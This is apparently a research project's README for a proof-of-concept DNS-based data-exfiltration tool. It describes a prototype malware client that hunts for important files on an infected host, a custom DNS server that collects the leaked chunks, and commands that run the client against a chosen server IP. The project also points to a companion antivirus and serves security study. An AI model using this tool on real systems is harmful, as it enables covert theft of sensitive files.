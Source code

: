 # SwaggyPloop

This project contains a proof of concept for a data exfiltration method that operates by leaking data through DNS requests. This can be used as a component for any malware that needs a communication channel to export sensitive files. For technical and implementation details, please see the included paper.

* The `client` folder contains the code for a prototype malware client that searches an infected host for important files. It uses our communication infrastructure to leak these files through DNS requests.
* The `dns` folder contains our own custom fork of the `dnspython` library, which we use to form the DNS requests on the client side.
* The `dns_server` folder contains our custom DNS server that listens for incoming requests structured using to our custom request format and logs them in a database for later reconstruction.
* The `lib` folder contains code that handles the encoding and packet structuring when breaking apart the files for transit as well as the code for reconstructing them on the server side. This folder also contains utility code for logging and querying the database.
* The `web_interface` folder contains a demonstrative interface for viewing the data chunks logged in the database and allows for the reconstructed data to be visualized.

The accompanying antivirus can be found [here](https://github.com/CrMallard/Antibody)

## Setup
This project requires Python `>=3.5` and runs best on a 64-bit Ubuntu `>=14.04` image. We have no guarantees for any other versions or distributions.

### Custom DNS Server
```
pip install -r requirements.txt
sudo python dns_server/malware_server.py # sudo is required to use port 53
```

### Exfiltrating a file (proof of concept)
```
pip install -r requirements.txt
python client/malware_client.py <file> [ip address of dns server]
```

## Authors
* Alvin Lin (omgimanerd)
* Stefan Aleksic (ColdSauce)
* Chris Remillard (CrMallard)
